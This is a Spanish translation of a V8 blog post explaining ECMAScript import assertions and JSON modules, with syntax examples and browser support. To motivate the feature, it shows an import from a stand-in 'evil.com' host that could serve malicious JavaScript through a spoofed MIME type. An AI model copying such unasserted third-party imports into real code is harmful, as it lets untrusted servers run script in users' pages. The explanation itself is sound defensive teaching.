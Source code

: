 ```yaml
---
title: &apos;Aserciones de importación&apos;
author: &apos;Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), importador asertivo de aserciones de importación&apos;
avatars:
  - &apos;dan-clark&apos;
date: 2021-06-15
tags:
  - ECMAScript
description: &apos;Las aserciones de importación permiten que las declaraciones de importación de módulos incluyan información adicional junto al especificador del módulo&apos;
tweet: &apos;&apos;
---
```


La nueva función de [aserciones de importación](https://github.com/tc39/proposal-import-assertions) permite que las declaraciones de importación de módulos incluyan información adicional junto al especificador del módulo. Un uso inicial de esta función es habilitar la importación de documentos JSON como [módulos JSON](https://github.com/tc39/proposal-json-modules):

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from &apos;./foo.json&apos; assert { type: &apos;json&apos; };
console.log(json.answer); // 42
```

## Antecedentes: Módulos JSON y tipo MIME

Una pregunta natural es por qué un módulo JSON no podría ser simplemente importado así:

```javascript
import json from &apos;./foo.json&apos;;
```

La plataforma web verifica el tipo MIME de un recurso de módulo para su validez antes de ejecutarlo, y en teoría este tipo MIME también podría usarse para determinar si tratar el recurso como un JSON o como un módulo JavaScript.

Sin embargo, existe un [problema de seguridad](https://github.com/w3c/webcomponents/issues/839) al confiar únicamente en el tipo MIME.

Los módulos pueden ser importados de un origen cruzado, y un desarrollador podría importar un módulo JSON desde una fuente de terceros. Podrían considerar esto como básicamente seguro incluso desde un tercero no confiable siempre que el JSON esté debidamente sanitizado, ya que importar JSON no ejecutará scripts.

Sin embargo, el script de terceros en realidad puede ejecutarse en este escenario, ya que el servidor de terceros podría responder inesperadamente con un tipo MIME de JavaScript y una carga maliciosa de JavaScript, ejecutando código en el dominio del importador.

```javascript
// Ejecuta JS si evil.com responde con un
// tipo MIME de JavaScript (e.g., `text/javascript`)!
import data from &apos;https://evil.com/data.json&apos;;
```

Las extensiones de archivo no pueden usarse para determinar el tipo de módulo porque [no son un indicador confiable del tipo de contenido en la web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Por lo tanto, utilizamos aserciones de importación para indicar el tipo de módulo esperado y prevenir esta escalada de privilegios.

Cuando un desarrollador quiere importar un módulo JSON, debe usar una aserción de importación para especificar que se supone que es JSON. La importación fallará si el tipo MIME recibido de la red no coincide con el tipo esperado:

```javascript
// Falla si evil.com responde con un tipo MIME no JSON.
import data from &apos;https://evil.com/data.json&apos; assert { type: &apos;json&apos; };
```

## `import()` dinámico

Las aserciones de importación también pueden pasarse a [`import()` dinámico](https://v8.dev/features/dynamic-import#dynamic) con un nuevo segundo parámetro:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import(&apos;./foo.json&apos;, {
  assert: { type: &apos;json&apos; }
});
console.log(jsonModule.default.answer); // 42
```

El contenido JSON es la exportación predeterminada del módulo, por lo que se referencia a través de la propiedad `default` en el objeto devuelto por `import()`.

## Conclusión

Actualmente, el único uso especificado de las aserciones de importación es para especificar el tipo de módulo. Sin embargo, la función fue diseñada para permitir pares arbitrarios de clave/valor en las aserciones, por lo que podrían añadirse usos adicionales en el futuro si resulta útil restringir las importaciones de módulos de otras maneras.

Mientras tanto, los módulos JSON con la nueva sintaxis de aserciones de importación están disponibles de forma predeterminada en Chromium 91. [Los scripts de módulos CSS](https://chromestatus.com/feature/5948572598009856) también estarán disponibles pronto, utilizando la misma sintaxis de aserciones de tipo de módulo.

## Soporte para aserciones de importación

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
